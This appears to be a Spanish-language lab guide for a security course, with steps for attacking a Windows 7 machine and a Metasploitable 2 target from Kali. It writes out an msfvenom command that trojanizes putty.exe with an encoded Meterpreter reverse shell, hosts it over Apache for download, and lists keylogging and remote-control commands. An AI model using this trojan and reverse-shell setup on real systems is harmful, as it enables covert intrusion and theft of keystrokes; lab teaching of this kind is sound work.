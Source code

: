 Pasos
- Recuerda modificar los parametros {ip-kali} por la ip de tu maquina
```
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost={ip-kali} lport=4444 -e x86/shikata_ga_nai -i 10 -b "\x00" -f exe -o putty32virus.exe
```
- Abre una consola extra y ejecuta `msfconsole`
- `use exploit/multi/handler`
- `set PAYLOAD windows/meterpreter/reverse_tcp`
- `set LHOST {ip-kali}`
- `set LPORT 4444`
- `exploit`
- Vuelve a tu consola principal
- Instala servidor apache con `apt-get install apache2`
- Activa servidor con `systemctl start apache2`
- Mueve el archivo `putty32virus.exe` a `/var/www/html`
- Si no funciona elimina el archivo `/var/www/html/index.html`
- Abre tu maquina Win 7
- Abre la IP de Kali en el navegador
- Descarga y ejecuta el archivo, de esta forma ya puedes usar tu consola de kali con `msfconsole` para controlar la maquina, te dejo algunas ideas
	- `keyscan_start` -> (escribe informacion en windows) -> `keyscan_dump` -> `keyscan_stop`
	- `shell` -> `starte explorer.exe` -> `exit` -> `keyboard_send google.com` -> `keyevent 13` (debes encontrar el evento a la key de enter) -> `shell` -> `TASKKILL /F /IM explorer.exe`


## Ítem 8
**Explotación de vulnerabilidad**

Maquinas:
- Kali Linux (Red NAT)
- Metasploitable 2 (Red NAT)

1. Use nmap para escanear los servicios, versión y usando los scripts de nmap (--script=vuln) descubre vulnerabilidades en el equipo target (víctima)
2. Usando el Metasploit Framework busque un exploit de Samba, cargue el exploit usando un payload funcional, configure las opciones y realice la explotación del servicio
3. Debe evidenciar la explotación exitosa accediendo a la terminal de la víctima a través de la Shell de Metasploit Framework y ejecutar comandos de Linux.

### Ayuda Item 8
## Explotacion de Vulnerabilides
Maquinas a usar en modo Red NAT
- [Kali](https://www.kali.org/)
- [Metasploitable2](https://www.rapid7.com/products/metasploit/metasploitable/)

Ayuda
- NMAP
	- [vulnersCom/namp-vulners NSE nmap repo](https://github.com/vulnersCom/nmap-vulners)
	- [esecurityplanet - Nmap Vulnerability made easy](https://www.esecurityplanet.com/networks/nmap-vulnerability-scanning-made-easy/)
	- [Nmap Docs - NSE Usage](https://nmap.org/book/nse-usage.html)
- vsFTP
	- [Medium Blog - Exploiting vsFTP](https://medium.com/@josegpach/exploiting-ftp-vulnerabilities-on-metasploitable-2-bbd935d42e23)
